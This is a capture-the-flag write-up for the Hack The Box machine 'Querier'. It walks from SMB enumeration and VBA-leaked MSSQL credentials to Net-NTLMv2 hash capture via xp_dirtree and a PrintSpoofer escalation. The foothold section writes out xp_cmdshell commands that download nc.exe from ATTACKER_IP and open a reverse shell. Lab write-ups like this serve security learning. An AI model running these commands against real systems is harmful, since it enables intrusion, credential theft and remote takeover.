










This box is rated medium difficulty on HTB. It involves us enumerating an SMB share to collect an Excel spreadsheet with macros enabled. Inspecting the VBA discloses MSSQL credentials which can be used to grab the service account's Net-NTLMv2 hash and crack it offline. Using that password, we can connect to the MSSQL server and grab a reverse shell via _xp_cmdshell_. Finally, we can abuse SeImpersonatePrivilege to execute commands as **NT AUTHORITY\SYSTEM** through named pipes to escalate our privileges.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing crazy.

```
$ sudo nmap -p135,139,445,1433,5985,47001,49664-49671 -sCV 10.129.16.152 -oN fullscan-tcp
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-08 00:09 -0400
Nmap scan report for 10.129.16.152
Host is up (0.056s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-info: 
|   10.129.16.152:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.16.152:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: QUERIER
|     DNS_Domain_Name: HTB.LOCAL
|     DNS_Computer_Name: QUERIER.HTB.LOCAL
|     DNS_Tree_Name: HTB.LOCAL
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-04-08T04:07:32
|_Not valid after:  2056-04-08T04:07:32
|_ssl-date: 2026-04-08T04:10:46+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-04-08T04:10:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.22 seconds
```

Looks like a Windows machine with no web components installed on it. It seems like our only attack vectors are:
- NetBIOS on port 135 (unlikely)
- SMB on port 445
- MSSQL server on port 1433
- WinRM on port 5985

## SMB Enumeration
The Microsoft SQL server is leaking the domain name of `querier.htb.local`, which I add to my `/etc/hosts` file to help with domain name resolution. I then start by enumerating SMB shares and brute forcing RIDs to get a basic understanding of user account names and groups on the system.

```
$ nxc smb querier.htb.local -u 'Guest' -p ''

$ nxc smb querier.htb.local -u '' -p '' --shares
```



That shows that while Null authentication is enabled, we don't have enough permissions to list shares or query identifiers. Guest authentication does not work but throws a strange error saying that the NetBIOS connection has timed out.

### Excel Spreadsheet
I swap to using SMBclient to list available shares to avoid connecting to NetBIOS altogether, which reveals a non-standard share named "reports". Inside is just one Excel spreadsheet file that seems to hold a report for some department's work.



After grabbing that file, I open the document using Gnumeric (a lightweight, open-source spreadsheet application built for Unix/Linux systems). You can install this tool with `sudo apt install gnumeric` on Kali since there isn't a default tool that supports this archive.



There seems to be nothing inside of it at first glance, but upon inspecting the metadata, we discover the author's name is Luis and the MIME type shows that macros have been enabled for this doc.

### Investigating VBA Macro
Gnumeric doesn't support Visual Basic for Applications (VBA) which is the language these macros use, so I swap to using [olevba](https://github.com/decalage2/oletools/wiki/olevba) (apart of the oletools package) so that I don't have to start up a Windows VM just for this step. We can install this with `pipx install oletools`.

```
$ olevba Currency\ Volume\ Report.xlsm 
olevba 0.60.2 on Python 3.13.12 - http://decalage.info/python/oletools
===============================================================================
FILE: Currency Volume Report.xlsm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

' macro to pull data for client volume reports
'
' further testing required

Private Sub Connect()

Dim conn As ADODB.Connection
Dim rs As ADODB.Recordset

Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10
conn.Open

If conn.State = adStateOpen Then

  ' MsgBox "connection successful"
 
  'Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close

End If

End Sub
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|Suspicious|Open                |May open a file                              |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
```

Investigating this macro, it seems that it makes a connection to the MSSQL server with credentials for the 'reporting' UID. 

## MSSQL Server
We can connect with these using Impacket's [mssqlclient.py script](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py).

```
$ impacket-mssqlclient reporting@querier.htb.local -windows-auth -db volume
```



There is only one unique database named volume, however I fail to discover any interesting entries within it. MSSQL supports extended procedures which are meant to enable administrators to interact directly with machines or filesystems from the CLI. 

I test to see if _xp_cmdshell_ is enabled or if we have sufficient rights to configure it, but it seems that we can not. This would've allowed us to execute commands as the SQL service and grab a reverse shell with ease. 

```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE
```

### Stealing Net-NTLMv2 Hash
Next, I test to see if _xp_dirtree_ is enabled, which displays the contents of directories on the filesystem.



It returns folders contained within the machines `C:\` drive, meaning that we can use this to our advantage. By itself, this could be very handy if we there was a web server by which we can enumerate the application's version to look for any CVEs and so on. However, since we're limited to WinRM and SMB, it's necessary to find a way to exploit this through those services.

Perhaps a lesser-known technique is when _xp_dirtree_ is given a UNC path like `\\attacker\share`, SQL Server asks the Windows OS to enumerate that remote path over SMB. During this process, Windows automatically attempts to authenticate to the remote SMB server, which triggers a Net-NTLMv2 authentication exchange using the service account's credentials. An attacker-controlled server can capture this challenge-response, enabling offline cracking or relay attacks.

In order to capture this Net-NTLMv2 hash, I stand up a Responder server to handle the inbound SMB connections.

```
--On local machine--
$ sudo Responder -I tun0 

--Over MSSQL--
SQL (QUERIER\reporting  reporting@volume)> xp_dirtree //ATTACKER_IP/doesnotexist/test
```

After forcing an outbound connection to my server, we are granted a hash for the mssql-svc user. Usually these accounts will end with a $ indicating that they are machine accounts that have lengthy and complex passwords that are rotated every thirty days. Luckily, this SQL server was configured to run from this user and may be crackable.



Sending that over to JohnTheRipper or Hashcat will return the plaintext version for the corresponding account, allowing us to authenticate to the machine now. It's worth noting that even if this didn't crack we could potentially still use this hash in a relay attack, however since they are not an administrator or equivalent to one, we may not get a whole lot out of it.



A few attempts later show that these credentials only work for the MSSQL server, but we now have the correct privileges to configure _xp_cmdshell_ to execute commands on the machine, grabbing a reverse shell.

### Initial Foothold
I upload a Netcat x64 binary to a new Temp directory to make sure we have correct executable permissions, and then execute it after standing up a Netcat listener on my local machine.

```
$ impacket-mssqlclient mssql-svc@querier.htb.local -windows-auth   

SQL (QUERIER\mssql-svc  dbo@master)> EXEC sp_configure 'show advanced options', 1;
SQL (QUERIER\mssql-svc  dbo@master)> RECONFIGURE;
SQL (QUERIER\mssql-svc  dbo@master)> EXEC sp_configure 'xp_cmdshell', 1;
SQL (QUERIER\mssql-svc  dbo@master)> RECONFIGURE;

SQL (QUERIER\mssql-svc  dbo@master)> xp_cmdshell "mkdir C:\Temp"
SQL (QUERIER\mssql-svc  dbo@master)> xp_cmdshell "curl http://ATTACKER_IP/nc.exe -o C:\Temp\nc.exe"
SQL (QUERIER\mssql-svc  dbo@master)> xp_cmdshell "C:\Temp\nc.exe ATTACKER_IP 443 -e cmd.exe"
```



## Privilege Escalation
Right away, we can see that our account has access to SeImpersonatePrivilege, meaning that we can use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) to exploit this and escalate privileges to **NT AUTHORITY\SYSTEM**, since the machine predates 2021 (when this attack was largely mitigated).



This exploit tool allows us to run any commands with the `-c` option through named pipes, I proceed by spawning a CMD shell, however you can do anything here.

```
.\PrintSpoofer64.exe -i -c cmd.exe
```



Once that has finished, we now have **SYSTEM** privileges over the machine and collect both flags under the user's respective Desktop folders. The intended way to escalate privileges was to utilize PowerUp to discover administrator credentials in a cached group policy file, but this method serves as a reminder to keep the OS up to date and harden them wherever possible.

Overall, this machine was very cool as it revolved around some more Windows-heavy tactics that can come in handy. I hope this was helpful to anyone following along or stuck and happy hacking!
